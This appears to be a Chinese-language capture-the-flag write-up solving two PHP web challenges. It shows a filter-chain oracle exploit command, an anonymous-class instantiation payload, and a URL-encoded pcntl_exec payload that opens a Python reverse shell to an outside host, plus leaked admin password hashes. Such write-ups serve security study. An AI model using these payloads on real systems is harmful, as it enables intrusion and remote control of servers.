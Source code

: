 ## SOLVED Later

源码(php版本是8.3.2)

```php
<?php
highlight_file(__FILE__);
// flag.php
if (isset($_POST['f'])) {
    echo hash_file('md5', $_POST['f']);
}
?>
```

hash_file函数，用filters_chain_oracle_exploit.py侧信道读取文件

```
python filters_chain_oracle_exploit.py --target http://192.168.56.101:1238/ --file flag.php --parameter f --time_based_attack True --match "Allowed memory size of"
```

`flag.php`

```php
<?php
if (isset($_GET['ezphpPhp8'])) {
    highlight_file(__FILE__);
} else {
    die("No");
}
$a = new class {
    function __construct()
    {
    }

    function getflag()
    {
        system('cat /flag');
    }
};
unset($a);
$a = $_GET['ezphpPhp8'];
$f = new $a();
$f->getflag();
?>
```

这里销毁了这个匿名类，我们在创建一个

```
class@anonymous%00/var/www/html/flag.php:7$0
```

payload

```
ezphpPhp8=class@anonymous%00/var/www/html/flag.php:7$0
```

参考

[https://mp.weixin.qq.com/s/gNi3ElOcD4qbCrYx6QJZdg](https://mp.weixin.qq.com/s?__biz=MzU2NDY2OTU4Nw==&mid=2247510427&idx=1&sn=22a75d12cae57aed2fe3b1e4a909fb2e&scene=21#wechat_redirect)?

https://hi-arkin.com/archives/php-anonymous-stdClass.html

## unauth

www.zip中有admin的密码

![image-20240405151327271](https://dabai1-1316520326.cos.ap-shanghai.myqcloud.com/img/image-20240405151327271.png)

```php
2e525e29e465f45d8d7c56319fe73036
```

登录后，存在一句话木马，密码为cmd，ban了很多函数，经过测试发现可以用pcntl_exec反弹shell：

```
/?cmd=%70%63%6e%74%6c%5f%65%78%65%63%28%22%2f%75%73%72%2f%62%69%6e%2f%70%79%74%68%6f%6e%22%2c%61%72%72%61%79%28%27%2d%63%27%2c%20%27%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%2c%73%6f%63%6b%65%74%2e%53%4f%4c%5f%54%43%50%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%22%31%2e%31%2e%31%2e%31%22%2c%32%39%39%39%39%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%70%3d%73%75%62%70%72%6f%63%65%73%73%2e%63%61%6c%6c%28%5b%22%2f%62%69%6e%2f%62%61%73%68%22%2c%22%2d%69%22%5d%29%3b%27%29%29%3b
```

系统的admin用户密码为b90e0086d8b1165403de6974c4167165（在config.inc.php中），先用python或者script获取一下可交互式shell，再用su登录一下admin用户读flag即可

> pcntl_exec -- 在当前进程空间执行指定程序
>
> **pcntl_exec**(string `$path`, array `$args` = [], array `$env_vars` = []): bool

> - `path`
>
>   `path` 必须时可执行二进制文件路径或一个在文件第一行指定了一个可执行文件路径标头的脚本（比如文件第一行是 #!/usr/local/bin/perl 的 perl 脚本）。
>
> - `args`
>
>   `args` 是一个要传递给程序的参数的字符串数组。       
>
> - `env_vars`
>
>   `env_vars` 是一个要传递给程序作为环境变量的字符串数组。这个数组是key => value 格式的，key 代表要传递的环境变量的名称，value 代表该环境变量值。 
